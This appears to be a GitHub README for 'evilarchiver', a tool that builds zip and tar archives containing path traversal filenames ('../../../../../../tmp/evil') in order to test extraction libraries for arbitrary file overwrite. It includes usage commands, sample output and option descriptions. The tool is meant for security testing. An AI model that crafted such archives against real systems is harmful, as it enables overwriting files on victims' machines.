 # evilarchiver
Modded version of tarfile.py for testing arbitrary file (over)write via path traversal in Tar archives.

This script is useful for quickly craft a tar archive with a file with dot-dot pattern as a filename and verify if the target library is vulnerable to arbitrary file overwrite via path traversal filenames.

This tool can be considered the counterpart of https://github.com/ptoomey3/evilarc.

Example:

<code>$ mkdir safedir </code>
  
<code>$ touch safedir/safefile security_test.txt </code>

<code>$ python2 evilarchiver.py -e security_test.txt -n ../../../../../../tmp/evil -s safedir/safefile </code>

Output:

<pre>creating archive zip

creating archive tar

creating archive tar.gz

creating archive tar.bz2

Contents of evil.zip:
['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar:
['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar.gz:

['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar.bz2:

['../../../../../../tmp/evil', 'safedir/safefile']</pre>


<pre>Options: 

-n: filename crafted with dot-dot patterns
-e: malicious file which content we want to associate to the dot-dot filename
-s: safe or benign file and filename
</pre>
